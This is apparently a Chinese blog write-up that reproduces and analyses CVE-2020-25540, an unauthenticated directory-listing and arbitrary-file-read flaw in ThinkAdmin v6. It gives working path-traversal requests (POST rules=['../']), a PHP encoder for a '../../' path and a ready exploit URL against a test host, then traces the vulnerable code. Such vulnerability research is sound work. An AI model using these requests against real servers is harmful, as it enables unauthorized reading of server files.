title: Thinkadmin v6任意文件读取漏洞(CVE-2020-25540)
no-emoji: false
date: 2020-09-27 16:46:41
tags:
top:
下载 ThinkAdmin 的过去版本
通过 Commit 找到修复的位置，下载修复版本的前一个版本

可以通过对比，重点关注修复的相关信息。

可以注意到对于任意文件读取的防护仅仅是加了 禁止目录级别上跳
下载老版本的方法为，找到修改前的 Commit 点击 Browse files 就可以下载过去的版本了。

按照配置创建和导入数据库，就安装成功了。

http://thinkadmin.test/index.php/admin.html?s=admin/api.Update/version

http://thinkadmin.test/index.php/admin.html?s=admin/api.Update/node
POST rules=["/"]

POST rules=["../"]

<?php
function encode($content)
{
[$chars, $length] = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];
for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
return $chars;
}
var_dump(encode("public/static/../../poc.php"));
?>http://thinkadmin.test/index.php/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b34332r1a342w34


我下载的版本为漏洞修复前的版本，可能与网上的文章有些不同，不过大体上是相同的。
app/admin/controller/api/Update.php 中引用了两个 function 可不通过登录认证就可使用。

\app\admin\controller\api\Update::version 可以获取到当前版本

\app\admin\controller\api\Update::node

将 POST 传入的参数 rules & ignore 传递给 ModuleService::instance()->getChanges()
跟进函数 \think\admin\service\ModuleService::getChanges

在 getChanges() 函数内，遍历传进的 $rules 数组，
$ignore可以不用关注，他会透过_scanList()去遍历$rules数组，调用scanDirectory()去递归遍历目录下的文件，最后在透过_getInfo()去获取文件名与哈希，由下面代码可以知道程序没有任何验证，攻击者可以在未授权的情况下读取服务器的文件列表。
\think\admin\service\ModuleService::_scanLocalFileHashList

\think\admin\service\NodeService::scanDirectory
